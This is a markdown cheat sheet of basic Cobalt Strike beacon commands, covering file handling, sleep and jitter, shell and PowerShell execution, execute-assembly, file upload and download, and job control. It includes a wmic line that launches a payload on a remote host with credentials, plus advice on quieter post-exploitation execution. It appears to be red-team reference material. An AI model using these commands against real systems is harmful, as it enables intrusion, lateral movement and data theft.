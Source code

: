 # 04 - Basic Commands

Search Tag(s): #cobalt-strike #command-and-control

## 4.1 - Navigation

- Change Directories

`beacon> cd <directory>`

## 4.2 - File Manipulation

- Create directory

`beacon> mkdir C:\path\to\new_directory\`

- Copy file

`beacon> cp C:\path\to\file.txt C:\path\to\copied_file.txt`

- Move file

`beacon> mv C:\path\to\file.txt C:\path\to\moved_file.txt`

- Delete file

`beacon> rm C:\path\to\file.txt`

## 4.3 - Sleep and Jitter

* Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

`beacon> sleep <seconds> <jitter>`

`beacon> sleep 15 30`

## 4.4 - List files or directories

`beacon> ls`

## 4.5 - Execute Shell Commands

* Execute any `shell` command that the beacon spawns a process `cmd.exe`

`beacon> shell <command> [args]`

`beacon> shell dir /s /b c:\ | findstr "explorer.exe"`

* Spawns a `cmd.exe` process but doesn't print the output

`beacon> execute <command> [args]`

- Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

`beacon> run <command> [args]`

`beacon> run arp -a`

`beacon> run wmic.exe /node:<IP> /user:<username> /password:<password> win32_process call create "C:\path\to\shell.exe"`

* Spawns a child process of `powershell.exe`

`beacon> powershell <cmdlet> [args]`

* Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command

`beacon> powerpick <cmdlet> [args]`

## 4.6 - Execute Program

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`

`beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [args]`

## 4.7 - Upload and Download Files

* Upload file

`beacon> upload /path/to/local/file.txt C:\path\to\remote\file.txt`

* Download file

`beacon> download C:\path\to\file.txt`

* Check file downloads

`beacon> downloads`

* Cancel file download(s)

`beacon> cancel <file | *>`

## 4.6 - Jobs Queue

* Queue jobs

`beacon> jobs`

* Kill job ID

`beacon> jobkill <jid>`